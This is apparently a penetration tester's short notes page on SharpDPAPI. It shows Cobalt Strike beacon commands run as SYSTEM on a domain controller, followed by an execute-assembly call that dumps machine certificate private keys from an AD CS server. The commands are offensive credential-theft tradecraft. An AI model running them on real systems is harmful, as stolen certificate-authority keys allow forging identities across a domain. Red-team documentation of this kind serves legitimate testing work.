 # SharpDPAPI

## [[Data Protection API (DPAPI)]]
Dump private keys but requires [[SharpDPAPI#Dump private keys]]
```beacon
beacon> run hostname
dc-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Debug\SharpDPAPI.exe certificates /machine
```
 ![](/Images/Pasted%20image%2020220322003615.png)



```meta
requirements: 
results: 
opsec: 
oss: #win 
source: https://github.com/GhostPack/SharpDPAPI
description: Dump the private key from a AD CS server
```